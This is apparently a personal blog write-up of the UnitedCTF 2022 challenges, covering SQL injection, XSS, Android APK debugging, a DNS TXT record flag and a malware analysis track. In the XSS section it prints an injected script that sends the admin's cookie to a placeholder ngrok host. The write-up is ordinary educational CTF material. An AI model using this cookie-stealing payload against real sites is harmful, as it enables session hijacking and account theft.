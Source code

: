 ```yaml
---
layout: post
title: "United CTF 2022"
date: 2022-10-16
image: /will-hack-for-coffee/assets/images/unitedctf2022/pastagen.png
---
```


Last year I was supposed to do a post on UnitedCTF web challenge but I ran out of gas. Too bad there was tons of cool stuff: a series of file upload challenges, a website featuring a cute dog, a pentest on a fake government website and hacking techniques based on the Vaxicode mobile app. In this post I'll show you how I combined SQL injection and XSS, an introductory mobile app pentest and one thing I learned about DNS. I will also talks about the track made by Desjardins, which was my favorite this year. As always the challenge are available on [Github](https://github.com/UnitedCTF/UnitedCTF-2022) so you can try them yourselves

## Wisdom 1: Know your SQL injection

![Wisdom website](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-website.png)

So this is a simple website where you can search for quotes. Using quotes didn't break the app but this payload did: 

![Error](/will-hack-for-coffee/assets/images/unitedctf2022/error.png)

I could then found that two columns were expected:

![First injection](/will-hack-for-coffee/assets/images/unitedctf2022/first-injection.png)

Then I had to guess what type of database it was using by trials and errors, [thank you for payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/finding-database-type.png)

Then I could extract the (simple) schema. Using an expression that evaluated to false at the left to simplify display:
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/extracting-schema.png)

Finally I got my flag:

![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-first-flag.png)

## Wisdom 2: XSS or SQL injection? Why not both?

There is a link called Found a bug, let's take a look:

![Bug submit page](/will-hack-for-coffee/assets/images/unitedctf2022/bug-submit.png)

It looks like if you put an url there, the admin will visit it. If there was XSS on his site we could steal his cookie, impersonate him and try to escalate our privilege. Sadly there is only SQL injection... hmmm?

![Reflected XSS](/will-hack-for-coffee/assets/images/unitedctf2022/reflected-xss.png)

So I managed to inject an XSS in the page by using this payload: 

``
' union select '<script>alert("Reflected XSS")</script>',null -- 
``

So now we need to redirect his cookie to a server we control. During the CTF, the website was on the internet and not hosted on my local server using Docker. For those well versed in networking (not me) it could be done using port forwarding but I used a tool call ngrok that simplified my network setting. It's a tool that is worth learning! Just register for a free account and [get started](https://ngrok.com/), it's only two steps to install and configure. After this launch ngrok on your machine forwarding to port 80 following the Getting started section. Then browse to the Endpoint page.

![ngrok](/will-hack-for-coffee/assets/images/unitedctf2022/ngrok.png)

This is the url to access your local server, I used a simple python server listening on port 80.

**Be careful with that tough because you are opening a door into your home network for all those malicious hackers and bots roaming the internet. So close Ngrok after you are finished and don't serve sensitive files with your python server! xD**

So I send this link for the admin to inspect (code formating the url looks kinda bad but it prevent accidental XSS in my website!):

``
http://wisdom.ctf.unitedctf.ca/?q=' union select '<script>document.location="https://xxx-xxx-xxx-xxx-xxx.ngrok.io?c=".concat(document.cookie);</script>',1 -- 
``

Looking at my python server:

![Capturing cookie](/will-hack-for-coffee/assets/images/unitedctf2022/capturing-cookie.png)

The first part of the flag is a reference to HTTP-Only which is a [setting for your cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies) that it should only be accessible by HTTP (excluding javascript). That setting kind of confused me at first as it doesn't mean unencrypted transmission but refer to the HTTP protocol. The cookie settings for transmitting cookies only via HTTPS is called Secure. The second part of the flag refer to [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) that indicate which resources are allowed to load.

## Mobile app 1: Debugging

Some students from [ApplETS](https://clubapplets.ca/) made a small mobile app track. I didn't knew anything about mobile app reversing but I was eager to try it.

![Mobile app 1](/will-hack-for-coffee/assets/images/unitedctf2022/mobile1.png)

First challenge is about SQL injection, no problemo! Oh I only have an APK? I wanted to try it for a long time so I installed [Android Studio](https://developer.android.com/studio). I could then open the APK and run it in a simulated device. 

![Debugging APK](/will-hack-for-coffee/assets/images/unitedctf2022/debugging-apk.png)

I know it's SQLlite and I'm all warmed up so quickly I had the first challenge done:

![First mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/first-mobile-flag.png)

## Mobile app 2: Grab that database

![Mobile app 2](/will-hack-for-coffee/assets/images/unitedctf2022/mobile2.png)

So I had to browse the database but where is it? The database seems to be created by the APK, possibly by code. By running the app in debug you can browse the device file. You might not be allowed access on a non rooted device but I am on a virtual device that I fully control. Googling the location of the database, I found that:

![Device explorer](/will-hack-for-coffee/assets/images/unitedctf2022/device-explorer.png)

Copying this database on my machine, I could then browse it using sqllitedb in Kali and found the second flag.

![Browsing the database](/will-hack-for-coffee/assets/images/unitedctf2022/second-mobile-flag.png)

## Mobile app 3: Decompilation

![Mobile app 3](/will-hack-for-coffee/assets/images/unitedctf2022/mobile3.png)

Why use a tool when you can Android Studio? Here is the third flag:

![Third mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/third-mobile-flag.png)

Really glad I took some time to look at Android Studio. I might dabble with it further eventually. Maybe an app to locate and rate the nearest mobile toilet when stuck in traffic due to roadworks?

![Mobile toilet](/will-hack-for-coffee/assets/images/unitedctf2022/mobile-toilet.png)

## Sus domain

The next challenge I wanted to show you, I only found after the CTF by looking at the solution:

![Suspicious domain](/will-hack-for-coffee/assets/images/unitedctf2022/sus-domain.png)

I knew it was related to DNS and I knew TXT was a type of record. But I investigated the domain (I didn't realized the DNS entry for the subdomain would be different) instead of the subdomain. 

![Looking at DNS txt record](/will-hack-for-coffee/assets/images/unitedctf2022/dig-subdomain.png)

Here it was, encoded in base64: FLAG-4eef1b53ba09dfd7fdb7037b488839770.

The text record can contain arbitrary text and this string is probably fake but it's a legit way for company, like Google, to verify you own this domain. It's also used to store DMARC, SPF and DKIM information for email authentication, so I learned that.

## Desjardins: Dynamic Malware analysis

It's the second time I completed the Desjardins track and it was even better then the last time. The idea of the challenge is to run a malware in a controlled environment and ultimately find and impersonate a [C2](https://www.varonis.com/blog/what-is-c2) server. There is already two [good](https://ch0ufleur.dev/desjardins-analyse-dynamique-de-logiciel-malveillant/) [writeup](https://github.com/PeLouZe/UnitedCTF22-Desjardins) on it but I used slightly different tooling so I toy with the idea of writing a post about it too. I used a [free image of windows 11](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/) and I installed a distribution from Mandiant specialized in reverse engineering and malware analysis called [Flare VM](https://www.mandiant.com/resources/blog/flare-vm-update).

Basically the malware interrogate a well known website before trying to contact his C2 server and he is using https so you need to use a proxy and configure the TLS certificate beforehand. I used [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), Wireshark and Burp. It could have been solved using only those but I discovered and configured the tool [mitmproxy](https://mitmproxy.org/) and I also used another tool called [fakenet](https://github.com/mandiant/flare-fakenet-ng) to impersonate the C2 server. So I now have a really nice VM to play with for those pesky Windows CTF challenge.

## Conclusion

UnitedCTF is my favorite because there is a lot of challenges designed to teach the basic of hacking to beginners by pointing to ressources and tools. There is also original content that I didn't see in any other CTF like the Shellcoding track or ReDoS last year. Thanks to the students who took the time to make this great event and thanks Desjardins for that interesting challenge!

